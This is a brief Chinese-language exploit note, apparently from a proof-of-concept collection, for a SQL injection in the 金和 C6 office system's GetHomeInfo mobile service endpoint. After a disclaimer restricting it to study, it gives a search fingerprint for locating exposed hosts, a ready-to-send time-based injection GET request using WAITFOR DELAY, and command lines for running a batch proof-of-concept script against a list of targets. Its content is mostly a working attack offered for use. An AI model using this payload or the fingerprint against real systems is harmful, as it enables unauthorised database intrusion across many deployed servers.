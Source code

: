 # 金和-c6 gethomeinfo sql注入

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

金和-c6 gethomeinfo sql注入

指纹  body="JHSoft.Web.AddMenu" 

GET /c6/jhsoft.mobileapp/AndroidSevices/HomeService.asmx/GetHomeInfo?userID=1'%3b+WAITFOR%20DELAY%20%270:0:3%27-- 



直接GET请求即可



批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt


